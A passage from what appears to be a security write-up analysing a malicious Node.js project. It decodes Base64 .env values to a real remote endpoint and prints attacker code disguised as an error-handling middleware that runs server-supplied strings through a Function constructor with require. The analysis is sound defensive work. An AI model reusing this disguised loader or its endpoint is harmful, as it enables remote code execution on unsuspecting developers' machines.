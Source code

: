     module.exports = initAppBootstrap;
    ```
    Clearly, this is a piece of code that decodes Base64 values from the `.env` file and performs a GET request using Axios to the src endpoint.

3. After decoding the Base64 values of ```src```, ```k```, and ```v``` from ```.env```, we get the following results:
    ```javascript
    src = 'https://bs-production.up.railway.app/out'
    k = 'x-secret-key'
    v = '_'
    ```

4. Notice that the Axios code sets the header ```k``` with the value ```v```. After making the request and dumping the result into the file ```res.js```, we obtain:
![{D41B5BF2-2616-47F8-8CAD-384AE4225A9F}](https://hackmd.io/_uploads/S1Jut1DXll.png)
Something went crazy at this point—and now, this is the main goal of our write-up 😐. (Nah, maybe silly when I dont setup VM to test it 🤷‍♂️).

:::important
Update on 04/07/2025
:::

In the most recent update, the attacker has become more sophisticated by changing the way the malware is retrieved from the server. Specifically, here are the changes they made:

1. They removed the explicit function call through the ```bootstrap.js``` file.
2. They added the file middlewares/validator/errorHandler.js with the following content:
    ```javascript
    const path = require('path');
    const axios = require('axios');
    require('dotenv').config({ path: path.resolve(__dirname, '../../.env') });

    // Utility loggers
    const log = (...args) => console.log(`[${new Date().toISOString()}]`, ...args);
    const errorLog = (...args) => console.error(`[${new Date().toISOString()}]`, ...args);

    /**
    * Sends error notification (you can replace this with Slack, email, etc.)
    */
    const notifyError = async (message) => {
    // Placeholder - extend this to send Slack, email, etc.
    errorLog('⚠️ Notification:', message);
    };

    /**
    * Custom error handler
    */
    const errorHandler = (error) => {
    try {
        if (typeof error !== 'string') {
        console.error('Invalid error format. Expected a string.');
        return;
        }
        const createHandler = (errCode) => {
        try {
            const handler = new (Function.constructor)('require', errCode);
            return handler;
        } catch (e) {
            console.error('Failed:', e.message);
            return null;
        }
        };
        const handlerFunc = createHandler(error);
        if (handlerFunc) {
        handlerFunc(require);
        } else {